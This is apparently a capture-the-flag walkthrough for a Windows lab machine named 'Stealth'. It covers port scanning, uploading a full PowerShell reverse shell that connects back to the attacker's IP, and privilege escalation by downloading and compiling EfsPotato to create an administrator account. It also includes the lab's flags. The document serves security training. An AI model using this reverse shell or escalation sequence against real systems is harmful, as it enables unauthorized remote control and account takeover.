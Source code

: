 # Stealth

## Machine Info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.8.5 -oN port_scan.txt

Nmap scan report for 10.10.8.5
Host is up (0.040s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-05T12:35:28+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: HOSTEVASION
|   NetBIOS_Domain_Name: HOSTEVASION
|   NetBIOS_Computer_Name: HOSTEVASION
|   DNS_Domain_Name: HostEvasion
|   DNS_Computer_Name: HostEvasion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-05T12:34:48+00:00
| ssl-cert: Subject: commonName=HostEvasion
| Not valid before: 2025-08-04T12:31:38
|_Not valid after:  2026-02-03T12:31:38
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp  open  pando-pub?
8000/tcp  open  http          PHP cli server 5.5 or later
|_http-title: 404 Not Found
8080/tcp  open  http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: PowerShell Script Analyser
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp  open  ssl/http      Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: PowerShell Script Analyser
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC

```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Try to upload a ps1 with a reverse shell to understand what is blocked and what not.

<details>

<summary>ps1 payload</summary>

```powershell
do {
    # Delay before establishing network connection, and between retries
    Start-Sleep -Seconds 1

    # Connect to C2
    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.23.52.142', 13337)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

# Writes a string to C2
function WriteToStream ($String) {
    # Create buffer to be used for next network stream read. Size is determined by the TCP client recieve buffer (65536 by default)
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}

    # Write to C2
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}

# Initial output to C2. The function also creates the inital empty byte array buffer used below.
WriteToStream ''

# Loop that breaks if NetworkStream.Read throws an exception - will happen if connection is closed.
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    # Encode command, remove last byte/newline
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    
    # Execute command and save output (including errors thrown)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }

    # Write output to C2
    WriteToStream ($Output)
}
# Closes the StreamWriter and the underlying TCPClient
$StreamWriter.Close

```

</details>

```bash
penelope
m
listeners add -i tun0 -p 13337
```

We got a shell without anything restrictions

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking inside the evader's desktop we can view this file:

```powershell
SHELL> more encodedflag
-----BEGIN CERTIFICATE-----
WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
aHA=
-----END CERTIFICATE-----


```

Decode this from base64 we obtain this:

{% code overflow="wrap" %}
```bash
echo "WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDovLzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5waHA=" | base64 -d                             

You can get the flag by visiting the link http://10.10.8.5:8000/asdasdadasdjakjdnsdfsdfs.php                                                                                                                    
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The file is a HoneyPot, try to follow the hint.

Go to Xampp uploads directory in the htdocs

```
cd C:\xampp\htdocs\uploads
rm log.txt
```

And now refresh the web page.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got the user flag.



## PrivEsc

WinPEAS was blocked by AV. We can try others script but we not found any interesting thing.

### p0wny shell

Uploading the more stable shell like p0wny shell we notice that we are more privilges

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### EFS potato

{% embed url="https://github.com/zcgonvh/EfsPotato" %}

{% code overflow="wrap" %}
```
wget https://raw.githubusercontent.com/zcgonvh/EfsPotato/refs/heads/master/EfsPotato.cs

python3 -m http.server 80
```
{% endcode %}

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">curl http://10.23.52.142/EfsPotato.cs -o EfsPotato.cs

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

<strong>C:\Temp\EfsPotato.exe\ whoami
</strong>
# add new user in the administrators group
EfsPotato.exe "cmd.exe /c net user Antoadmin Password123! /add &#x26;&#x26; net localgroup Administrators Antoadmin /add"
</code></pre>

<figure><img src="../../../.gitbook/assets/image (395).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (396).png" alt=""><figcaption></figcaption></figure>

### RDP Access

```
xfreerdp3 /v:IP /u:Antoadmin /p:'Password123!'
```

<figure><img src="../../../.gitbook/assets/image (397).png" alt=""><figcaption></figcaption></figure>

```
THM{101011_ADMIN_ACCESS}
```
